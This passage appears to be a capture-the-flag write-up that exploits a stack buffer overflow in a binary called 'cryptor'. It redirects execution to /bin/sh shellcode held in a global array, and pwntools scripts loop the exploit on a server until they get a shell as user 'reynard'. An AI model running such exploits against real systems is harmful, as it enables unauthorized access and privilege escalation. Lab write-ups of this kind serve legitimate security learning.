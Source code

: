 We also notice from static analyis that the second argument is stored in a global array found at `0x804a080`. If we write our shellcode in the global array, we can point EIP to that buffer and potentially win.

Our plan of attack here is as follows:

* Overwrite the return address `BBBB` with `0x804a080`
* Drop `/bin/sh` shellcode in the second argument in order to gain a shell

Our resulting testing script is below:

```python
from pwn import * # pip install --upgrade git+https://github.com/binjitsu/binjitsu.git

shellcode = 'A' * cyclic_find('zaab') + p32(0x804a080)
shellcode += 'C' * (116 - len(shellcode))

r = process(['./cryptor', shellcode, asm(shellcraft.sh())])

r.interactive()
```

And we have a shell locally. Now we have to execute this command on the server. In order to do this, we create the command in our existing script, then send the command from the script. The process is shown below:

```python
offset = cyclic_find('zaab')
buffer = 116 - len(shellcode)

# Yay easy /bin/sh shells
binsh_shellcode = asm(shellcraft.sh())

# Build argv1
argv1 = '"A" * {} + "{}" + "C" * {}'.format(offset, r'\x80\xa0\x04\x08', buffer)

# Build argv2
argv2 = ''.join('\\x{}'.format(enhex(binsh_shellcode)[x:x+2]) for x in xrange(0, len(enhex(binsh_shellcode)), 2))

# Final command
actual_shellcode = """./cryptor $(python -c 'print {}') $(python -c 'print "{}"')""".format(argv1, argv2)

log.info(actual_shellcode)

# Sometimes the command didn't work. This will repeat throwing the command until we get a reynard shell
r.sendline('cd /home/reynard/private')
while True:
    r.clean()
    r.sendline(actual_shellcode)
    r.clean()
    r.sendline('id')
    output = r.recv()
    if 'reynard' in output:
        break

log.info("Shell recevied: reynard")

r.interactive()
```

